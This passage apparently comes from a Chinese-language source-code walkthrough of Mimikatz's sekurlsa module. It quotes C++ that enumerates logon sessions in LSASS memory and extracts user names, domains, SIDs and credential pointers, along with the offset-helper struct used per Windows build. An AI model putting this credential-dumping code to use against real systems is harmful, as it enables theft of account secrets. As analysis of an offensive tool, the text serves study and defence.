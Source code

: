 ```c++
                        sessionData.LogonType   = *((PULONG)        ((PBYTE) aBuffer.address + helper-&gt;offsetToLogonType));
                        sessionData.Session     = *((PULONG)        ((PBYTE) aBuffer.address + helper-&gt;offsetToSession));
                        sessionData.UserName    = (PUNICODE_STRING) ((PBYTE) aBuffer.address + helper-&gt;offsetToUsername);
                        sessionData.LogonDomain = (PUNICODE_STRING) ((PBYTE) aBuffer.address + helper-&gt;offsetToDomain);
                        sessionData.pCredentials= *(PVOID *)        ((PBYTE) aBuffer.address + helper-&gt;offsetToCredentials);
                        sessionData.pSid        = *(PSID *)         ((PBYTE) aBuffer.address + helper-&gt;offsetToPSid);
                        sessionData.pCredentialManager = *(PVOID *) ((PBYTE) aBuffer.address + helper-&gt;offsetToCredentialManager);
                        sessionData.LogonTime   = *((PFILETIME)     ((PBYTE) aBuffer.address + helper-&gt;offsetToLogonTime));
                        sessionData.LogonServer = (PUNICODE_STRING) ((PBYTE) aBuffer.address + helper-&gt;offsetToLogonServer);

                        kull_m_process_getUnicodeString(sessionData.UserName, cLsass.hLsassMem);
                        kull_m_process_getUnicodeString(sessionData.LogonDomain, cLsass.hLsassMem);
                        kull_m_process_getUnicodeString(sessionData.LogonServer, cLsass.hLsassMem);
                        kull_m_process_getSid(&amp;sessionData.pSid, cLsass.hLsassMem);
                        // callback 为 kuhl_m_sekurlsa_enum_callback_logondata
                        retCallback = callback(&amp;sessionData, pOptionalData);

                        if(sessionData.UserName-&gt;Buffer)
                            LocalFree(sessionData.UserName-&gt;Buffer);
                        if(sessionData.LogonDomain-&gt;Buffer)
                            LocalFree(sessionData.LogonDomain-&gt;Buffer);
                        if(sessionData.LogonServer-&gt;Buffer)
                            LocalFree(sessionData.LogonServer-&gt;Buffer);
                        if(sessionData.pSid)
                            LocalFree(sessionData.pSid);

                        data.address = ((PLIST_ENTRY) (aBuffer.address))-&gt;Flink;
                    }
                    else break;
                }
            }
            LocalFree(aBuffer.address);
        }
    }
}
```

这里先根据 `BuildNumber` 中的系统版本，从 `lsassEnumHelpers` 中选择适合的条目，这是一个 `KUHL_M_SEKURLSA_ENUM_HELPER` 结构体的数组，用于保存用户的各种信息在 `KIWI_MSV1_0_LIST_63` 中的偏移量，其声明如下。

```c++
typedef struct _KUHL_M_SEKURLSA_ENUM_HELPER {
    SIZE_T tailleStruct;
    ULONG offsetToLuid;
    ULONG offsetToLogonType;
    ULONG offsetToSession;
    ULONG offsetToUsername;
    ULONG offsetToDomain;
    ULONG offsetToCredentials;
    ULONG offsetToPSid;
    ULONG offsetToCredentialManager;
    ULONG offsetToLogonTime;
    ULONG offsetToLogonServer;
} KUHL_M_SEKURLSA_ENUM_HELPER, *PKUHL_M_SEKURLSA_ENUM_HELPER;
```

